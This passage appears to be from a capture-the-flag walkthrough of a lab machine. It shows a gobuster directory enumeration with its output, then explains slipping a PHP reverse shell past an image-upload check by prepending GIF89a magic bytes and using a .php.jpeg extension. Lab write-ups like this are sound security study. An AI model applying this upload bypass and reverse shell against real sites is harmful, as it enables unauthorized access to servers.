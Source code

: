 ```
# gobuster dir -u http://10.10.10.146 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt -t 20
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.146
[+] Threads:        20
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt
[+] Timeout:        10s
===============================================================
2019/09/20 11:36:02 Starting gobuster
===============================================================
/index.php (Status: 200)
/uploads (Status: 301)
/photos.php (Status: 200)
/upload.php (Status: 200)
/lib.php (Status: 200)
/backup (Status: 301)
```
So there are a few directories. If we going to the <b>/uploads.php</b> page we will be greeted with a file upload

![fileupload.png](../../resources/b10996682c8b47eeb7843916b71bc690.png)

Trying to upload a php reverse shell will get us and <b>invalid image file</b> message. We are going to have to sneak the shell onto the system. To do this we can append <b>GIF89a</b> to the top of the file and all change the extension from <b>.php</b> to <b>.php.jpeg</b>

```
GIF89a                                                                                                 
<?php                                                                                                  
// php-reverse-shell - A Reverse Shell implementation in PHP
```
Upload the file and you should be greeted with a message saying the upload was successful

![successful.png](../../resources/96819a53514141ecb8db1e0db57ec73e.png)
